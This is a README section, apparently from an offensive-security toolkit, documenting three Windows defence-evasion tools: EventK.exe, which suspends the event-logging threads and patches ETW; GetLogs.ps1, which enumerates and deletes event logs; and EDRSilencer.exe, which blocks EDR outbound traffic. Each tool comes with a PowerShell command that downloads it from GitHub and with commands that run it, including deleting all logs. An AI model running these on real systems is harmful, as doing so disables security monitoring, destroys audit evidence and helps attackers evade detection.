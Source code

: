 ## EventK.exe

|Binary Name|Description|Privileges|Notes|
|---|---|---|---|
|EventK|Suspend thread in svchost.exe related to event logging (@SolomonSklash)|Administrator|[Screenshot](https://naoexiste)|

<br />

**Download cmdlet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/ETWpatch/eventK.exe" -OutFile "eventK.exe"|Unblock-File
```

<br />

**Execute:**
```powershell
.\eventK.exe
```

<br />

**Final Notes:**
```powershell
[ETW Bypass]
Coverage of Event Tracing for Windows (ETW). The solution in this case is simple:
Patch the ETWEventWrite function to return early with 0 in the RAX register. Anytime an ETW
event is sent by the process, it will always succeed, without actually sending the message.
```

Article: https://www.solomonsklash.io/windows-evasion-course-review.html

<br />

## GetLogs.ps1

|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|[GetLogs](https://github.com/r00t-3xp10it/redpill/blob/main/bin/GetLogs.ps1)|Enumerate \ Read \ Delete eventvwr logfiles (ETW)|User Land (enum) \ Administrator (delete)|[Screenshot1](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/ETWpatch/GetLogs-enum.png)<br />[Screenshot2](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/ETWpatch/GetLogs-yara.png)<br />[Screenshot3](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/ETWpatch/GetLogs-del.png)|

<br />

**Download cmdlet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/bin/GetLogs.ps1" -OutFile "GetLogs.ps1"
```

<br />

**Execute:**
```powershell
#Lists ALL eventvwr categorie entrys
.\GetLogs.ps1 -GetLogs 'Enum'

#List newest 3 (default) Powershell\Application\System entrys
.\GetLogs.ps1 -GetLogs 'Verbose'

#List newest 8 Powershell\Application\System entrys
.\GetLogs.ps1 -GetLogs 'Verbose' -NewEst '8'

#List newest 28 logs using cmdlet default Id's and categories!
.\GetLogs.ps1 -GetLogs 'Yara' -NewEst '28'
   
#List newest 13 logfiles with Id: 59 using cmdlet default categories!
.\GetLogs.ps1 -GetLogs 'Yara' -NewEst '13' -Id '59'
   
#List newest 10 logfiles of 'system' categorie with id: 1
.\GetLogs.ps1 -GetLogs 'Yara' -verb "system" -Id '1' -NewEst '10'

#List newest 3 (default) logfiles of 'NetworkProfile/Operational' categorie with Id: 10001
.\GetLogs.ps1 -GetLogs 'Yara' -Verb "Microsoft-Windows-NetworkProfile/Operational" -id '10001'

#Delete ALL eventvwr (categories) logs from snapIn! (verbose)
.\GetLogs.ps1 -GetLogs 'Paranoid'

#Delete ALL eventvwr (categories) logs from snapIn!
.\GetLogs.ps1 -GetLogs 'DeleteAll'

#Delete ONLY logfiles from "Microsoft-Windows-Powershell/Operational" eventvwr categorie!
.\GetLogs.ps1 -GetLogs 'DeleteAll' -Verb "Microsoft-Windows-Powershell/Operational"
```

<br />

## EDRSilencer.exe

|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|[EDRSilencer](https://github.com/netero1010/EDRSilencer)|Search known running EDR processes and add WFP filter to block its outbound traffic|\*\*\*|

<br />

**Download cmdlet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/ETWpatch/EDRSilencer.exe" -OutFile "EDRSilencer.exe"
```

<br />

**Execute:**
```powershell
Usage: EDRSilencer.exe <blockedr/block/unblockall/unblock>

- Add WFP filters to block the IPv4 and IPv6 outbound traffic of all detected EDR processes:
  .\EDRSilencer.exe blockedr

- Add WFP filters to block the IPv4 and IPv6 outbound traffic of a specific process (full path is required):
  .\EDRSilencer.exe block "C:\Windows\System32\curl.exe"

- Remove all WFP filters applied by this tool:
  .\EDRSilencer.exe unblockall

- Remove a specific WFP filter based on filter id:
  .\EDRSilencer.exe unblock <filter id>
```

